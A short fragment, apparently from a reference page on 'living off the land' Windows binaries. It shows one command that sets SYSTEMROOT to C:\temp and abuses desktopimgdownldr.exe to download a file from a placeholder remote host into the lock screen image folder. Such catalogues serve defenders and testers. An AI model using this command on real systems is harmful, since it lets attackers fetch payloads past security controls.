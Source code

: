 ### Download file (result file: Personalization\LockScreenImage\LockScreenImageXXX)
```
set "SYSTEMROOT=C:\temp" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://<rhost>/<file> /eventName:<eventName>
```

